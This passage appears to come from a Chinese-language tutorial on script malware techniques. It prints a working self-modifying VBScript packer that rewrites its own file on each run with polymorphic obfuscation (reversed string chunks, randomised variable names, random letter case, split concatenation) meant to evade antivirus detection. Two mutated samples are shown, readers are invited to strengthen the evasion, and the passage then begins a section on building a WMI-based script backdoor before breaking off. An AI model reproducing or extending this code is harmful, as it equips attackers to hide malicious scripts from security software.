 	A001="wscript.echo ""OK!"":A004=chr(34):randomize:A005=int(rnd*24000+40960):A001=A006(A001):A000=A005 mod 10+2:A001=replace(A002,A004,A004&A004):set A007=createobject(""ADODB.Stream""):A007.open:A007.writetext hex(A005+1)&""=""&A004&A001&A004&A008("":execute ""&A004&A006(""A000=""&A000&"":A001=A002:execute A001:function A002():for A003=1 to len(A001) step A000:A002=A002+strreverse(mid(A001,A003,A000)):next:end function"")&A004):A007.savetofile wscript.scriptfullname,2:function A006(A009):for A00A=0 to 12:A009=replace(A009,hex(&HA000+A00A),hex(A005+A00A)):next:A006=A009:end function:function A008(A009):for A00A=1 to len(A009):A00B=mid(A009,A00A,1):if int(rnd*2-1) then A00B=ucase(A00B):end if:if A00A>11 and int(rnd*5)=0 then A008=A008&A004&chr(38+int(rnd*2)*5)&A004:end if:A008=A008&A00B:next:end function":A000=1:A001=A002:execute A001:function A002():for A003=1 to len(A001) step A000:A002=A002+strreverse(mid(A001,A003,A000)):next:end function

（注意，其中没有回车符）

上面是“原版”的，保存为vbs文件双击运行，还是弹出对话框显示"OK!"。再看代码变形成什么样了(效果是随机的)：

	B906="tpircsw"" ohce.9B:""!KO(rhc=90nar:)43:ezimodni=A09B2*dnr(t04+00049B:)069B09B=60:)609B(9B=509B dom A09B:2+01lper=6009B(eca,909B,79B&909Btes:)90c=C09B boetaerA""(tcejtS.BDOD:)""maerpo.C09BC09B:netetirw.xeh txe1+A09B(B&""=""&)09B&909&909B&6:""(D09Betucexe909B&"" ""(B09B&&""=509B:""&509B9B=609Bcexe:709B etucnuf:609B noitof:)(70=809B rel ot 1)609B(nB pets 09B:509+709B=7everrtsdim(esrB,609B(09B,809xen:))5f dne:tnoitcnu909B&)"".C09B:)fotevascsw elics.tpirluftpir2,emanlitcnuf:B09B no:)E09B(09B rof ot 0=FE09B:21calper=,E09B(eBH&(xeh09B+509(xeh,)F9B+A09Ben:))F0B09B:txe:E09B=cnuf dnuf:noit noitcn9B(D09Brof:)E01=F09B nel ot :)E09B(im=019B,E09B(d)1,F09Btni fi:-2*dnr(neht )1u=019B 9B(esacdne:)01 fi:fi 11>F09Bni dna 5*dnr(teht 0=)=D09B n9B&D09B(rhc&90(tni+83*)2*dnr909B&)5fi dne:B=D09B:19B&D09:txen:0nuf dnenoitc":EXecUTe "B9"&"05=7"&":B906"&"=B907:E"+"XEc"+"utE B906"+":FuN"&"ctIoN B9"&"07():fOr"+" B9"+"08=1 tO l"&"En(B906)"+" step B905:B907"&"=B907+"&"sTRreVErSe(MId("&"B9"&"0"&"6,B908,B905"&")"+"):N"+"eX"+"t"+":eNd fUN"&"CtiOn"

眼花了没？再来一次：

	F0CB="rcsw.tpiohceKO"" F:""!=EC0(rhc:)43dnarzimo0F:ei=FCr(tn2*dn0004904+:)06BC0FD0F=0F(0:)BCAC0FC0F=om F01 dF:2+=BC0lper(ecaCC0FC0F,0F,EF&EC)EC0tes:D0F rc=1etaeejbo""(tcDODAtS.BmaerF:)"".1D0nepoD0F:rw.1teti txe(xehFC0F&)1+&""=""EC0FC0F&0F&BF&EC(2D0xe:""tuce&"" eEC0FD0F&F""(0=AC00F&""""&ACC0F:0F=Be:CCucex etBC0Fnuf:oitc0F n)(CCrof:C0F 1=Dl otF(ne)BC0ets 0F pF:AC=CC0CC0Frts+ever(esr(dimBC0FC0F,0F,D))ACxen:ne:tuf ditcn)""noC0F&F:)E.1D0evasifotw elircss.tppircluftmanl:2,ecnufnoitD0F 0F(0:)3D rof4D0Ft 0=21 oD0F:er=3calp0F(eh,3D&(xeC0FH0F+A,)4D(xehFC0FD0F+:))4txenD0F:0F=0e:3Df dntcnu:noicnufnoitD0F 0F(2:)3D rof4D0Ft 1=el o0F(n:)3D5D0Fdim=D0F(0F,31,4Dfi:)tni dnr(1-2*ht )F ne=5D0sacu0F(e:)5D dnei:fi0F f1>4Dna 1ni dnr(t)5*dt 0= neh2D0FD0F=0F&2c&EC3(rhni+8nr(t)2*d&)5*EC0Fdne::fi 2D0FD0F=0F&2n:5D:txe dnecnufnoit":eXecUtE "F"+"0CA"&"=4:F0CB"+"="+"F0CC:eX"+"e"+"cUte F0CB"&":F"+"UNC"+"tIOn F0CC():F"+"or"+" F0"&"CD=1 tO LEN(F0CB) sTEp F0CA:F0CC=F0CC+strR"+"Ever"+"SE"&"(mID("+"F0CB,"+"F0CD,F0CA)):nEXT:eNd FU"&"nCTIo"&"N"

这样够了吗？——不知道。也许杀毒引擎本来就是忽略大小写的，本来就能自动连接字符串，本来就能“文法分析”……

这个“壳”有实用性吗？——没有。因为“壳”的算法太简单。“种子”A000 = A005 mod 10 + 2，所以如果不考虑自动改变的变量名，加壳后的代码只有10种样子。

如何改进这个“壳”？——当然是用更复杂的算法，更多的“多态”。

如果你有兴趣，可以先看那个“原版”的脚本代码（把冒号都替换为回车，可读性就比较好了），然后自己加强它。

当然，你也可以另起炉灶，自由展现你的创意。
# 
【来做个后门】 #
在讨论脚本后门前，先要介绍一类很有用的WMI对象。事实上，这才是本节的关键。脚本后门不过是它的一个应用而已。

前面已经说过，WMI是事件驱动的。整个事件处理机制分为四个部分：
